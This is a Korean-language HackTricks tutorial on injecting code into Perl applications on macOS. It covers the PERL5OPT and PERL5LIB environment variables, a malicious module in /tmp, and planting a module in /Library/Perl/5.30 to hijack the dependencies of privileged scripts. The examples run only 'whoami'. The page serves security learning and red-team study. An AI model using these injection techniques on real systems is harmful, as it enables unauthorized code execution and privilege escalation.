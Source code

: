 # macOS Perl Applications Injection

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>를 통해 AWS 해킹을 제로부터 전문가까지 배우세요!</strong></summary>

다른 방법으로 HackTricks를 지원하는 방법:

- **회사가 HackTricks에 광고되길 원하거나 HackTricks를 PDF로 다운로드하고 싶다면** [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
- [**공식 PEASS & HackTricks 스왜그**](https://peass.creator-spring.com)를 구매하세요
- [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요, 당사의 독점 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션
- 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **가입**하거나 **트위터** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks\_live)을 **팔로우**하세요.
- **HackTricks** 및 **HackTricks Cloud** github 저장소에 PR을 제출하여 해킹 트릭을 공유하세요.

</details>

## `PERL5OPT` 및 `PERL5LIB` 환경 변수를 통한 방법

`PERL5OPT` 환경 변수를 사용하면 perl이 임의의 명령을 실행할 수 있습니다.\
예를 들어, 다음 스크립트를 만듭니다:

{% code title="test.pl" %}
```perl
#!/usr/bin/perl
print "Hello from the Perl script!\n";
```
{% endcode %}

이제 **환경 변수를 내보내고** **perl** 스크립트를 실행하세요:
```bash
export PERL5OPT='-Mwarnings;system("whoami")'
perl test.pl # This will execute "whoami"
```
다른 옵션은 Perl 모듈을 생성하는 것입니다 (예: `/tmp/pmod.pm`):

{% code title="/tmp/pmod.pm" %}
```perl
#!/usr/bin/perl
package pmod;
system('whoami');
1; # Modules must return a true value
```
{% endcode %}

그런 다음 환경 변수를 사용하십시오:
```bash
PERL5LIB=/tmp/ PERL5OPT=-Mpmod
```
## 의존성을 통해

Perl을 실행하는 데 필요한 종속성 폴더 순서를 나열할 수 있습니다:
```bash
perl -e 'print join("\n", @INC)'
```
다음은 비슷한 결과를 반환합니다:
```bash
/Library/Perl/5.30/darwin-thread-multi-2level
/Library/Perl/5.30
/Network/Library/Perl/5.30/darwin-thread-multi-2level
/Network/Library/Perl/5.30
/Library/Perl/Updates/5.30.3
/System/Library/Perl/5.30/darwin-thread-multi-2level
/System/Library/Perl/5.30
/System/Library/Perl/Extras/5.30/darwin-thread-multi-2level
/System/Library/Perl/Extras/5.30
```
일부 반환된 폴더는 실제로 존재하지 않지만, **`/Library/Perl/5.30`**는 **존재**하며, **SIP로 보호되지 않으며** SIP로 보호되는 폴더보다 **앞에** 있습니다. 따라서 누군가는 그 폴더를 남용하여 스크립트 종속성을 추가하여 높은 권한을 가진 Perl 스크립트가 해당 종속성을 로드하도록 할 수 있습니다.

{% hint style="warning" %}
그러나 주의해야 할 점은 **해당 폴더에 쓰기 위해 root 여야**하며 요즘에는 이 **TCC 프롬프트**를 받게 될 것입니다:
{% endhint %}

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1).png" alt="" width="244"><figcaption></figcaption></figure>

예를 들어, 스크립트가 **`use File::Basename;`**을 가져오고 있다면 `/Library/Perl/5.30/File/Basename.pm`을 만들어 임의의 코드를 실행시킬 수 있습니다.

## 참고 자료

* [https://www.youtube.com/watch?v=zxZesAN-TEk](https://www.youtube.com/watch?v=zxZesAN-TEk)
